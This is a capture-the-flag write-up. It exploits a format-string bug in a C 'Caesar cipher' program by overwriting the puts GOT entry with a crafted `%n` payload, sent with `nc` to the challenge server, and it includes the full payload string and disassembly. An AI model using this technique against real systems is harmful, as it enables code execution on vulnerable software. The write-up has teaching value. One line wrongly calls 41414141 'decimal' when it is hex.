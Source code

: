 # Challenge: Caesar

We're given a C program and its resulting ELF binary.

Let's look at the code:


```c
void caesar() {
        int i = 0, shift = 0;
        char input[250];
        char s[100], *p;

        printf("Enter text to be encoded: ");
        fgets(input, 250, stdin);

...

        printf("\nOriginal input:");
        printf(input);
...
}
```

That `printf(input)` is a red flag for a format string attack.
Let's look at the binary with objdump -d:

```
0804886a <give_flag>:
 804886a:   55                      push   %ebp
 804886b:   89 e5                   mov    %esp,%ebp
 804886d:   83 ec 48                sub    $0x48,%esp
 8048870:   83 ec 08                sub    $0x8,%esp
```

Okay, so we have the address to jump to. In little endian systems, that address would be `6a 88 04 08`.

Let's find the offset of our input buffer in the stack. You can do this manually or programatically.

```
...

Thank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: Enter number of characters to shift: 
Original input:AAAA: 30: 1
Ciphered with a shift of 0: AAAA: 30: %30$x

Thank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: Enter number of characters to shift: 
Original input:AAAA: 31: 41414141
Ciphered with a shift of 0: AAAA: 31: %31$x

Thank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: Enter number of characters to shift: 
Original input:AAAA: 32: 3233203a
Ciphered with a shift of 0: AAAA: 32: %32$x

...

```

See that `41414141`? That's the decimal representation of `AAAA`. So, if we put an address to write to in the beginning of the buffer, then we can access it with `%31$x`. Now all we need is the address. We can't use the return pointer - it's location is dynamic. We can't use .fini_array either: the program will crash, as it needs to use that.

Let's run the binary in gdb:

```
    (gdb) disassemble caesar
Dump of assembler code for function caesar:
   0x0804861b <+0>: push   %ebp
   0x0804861c <+1>: mov    %esp,%ebp
   0x0804861e <+3>: sub    $0x178,%esp
   0x08048624 <+9>: movl   $0x0,-0xc(%ebp)
   0x0804862b <+16>:    movl   $0x0,-0x10(%ebp)
   0x08048632 <+23>:    sub    $0xc,%esp
   0x08048635 <+26>:    push   $0x80489d0
   0x0804863a <+31>:    call   0x8048480 <printf@plt>

...

     %eax
   0x08048847 <+556>:   pushl  -0x10(%ebp)
   0x0804884a <+559>:   push   $0x8048a4c
   0x0804884f <+564>:   call   0x8048480 <printf@plt>
   0x08048854 <+569>:   add    $0x10,%esp
   0x08048857 <+572>:   sub    $0xc,%esp
   0x0804885a <+575>:   push   $0x8048a6c
   0x0804885f <+580>:   call   0x80484c0 <puts@plt>
   0x08048864 <+585>:   add    $0x10,%esp
   0x08048867 <+588>:   nop
   0x08048868 <+589>:   leave  
   0x08048869 <+590>:   ret    
End of assembler dump.
```

Did you spot `puts@plt`? It's dynamic linkage, and as it turns out, inside that function, it jumps to an pointer that is allocated with the address of the real `puts` at runtime. If we can find that address, we can hijack this jump.

```
(gdb) stepi
0x0804885f in caesar ()
(gdb) stepi
0x080484c0 in puts@plt ()
(gdb) disassemble
Dump of assembler code for function puts@plt:
=> 0x080484c0 <+0>: jmp    *0x804a020
   0x080484c6 <+6>: push   $0x28
   0x080484cb <+11>:    jmp    0x8048460
End of assembler dump.
```

Found it! The address is is `0804a020`.
Using `%#$n`, we can write the number of bytes that have already been written in the string prior to the address accessed at offset `#`. We can control the number of bytes with `%#$x` where `#` is the number of bytes to write. 

Below is the string, with escaped values, that we will write.

Note that for each byte, if we want to write a value that is smaller than the byte written before, we add more bytes to first overflow modulo 256, then add the number of bytes we actually want.

```
\x20\xa0\x04\x08\x21\xa0\x04\x08\x22\xa0\x04\x08\x23\xa0\x04\x08%90x%31$n%286x%32$n%124x%33$n%260x%34$n
```

The final exploit is seen below:

```
$ ruby -e 'print("\x20\xa0\x04\x08\x21\xa0\x04\x08\x22\xa0\x04\x08\x23\xa0\x04\x08%90x%31$n%286x%32$n%124x%33$n%260x%34$n")' | nc shell.hsctf.com 10003
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: Enter number of characters to shift: 
Original input: !"#                                                                                        64                                                                                                                                                                                                                                                                                      f77205a0                                                                                                                    f772d470                                                                                                                                                                                                                                                            f774eac4Ciphered with a shift of 0:  !"#%90x%31$n%286x%32$n%124x%33$n%260x%34$nWhy, thank you! 
Thank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!Here's a flag: flag{printered_lol}
```


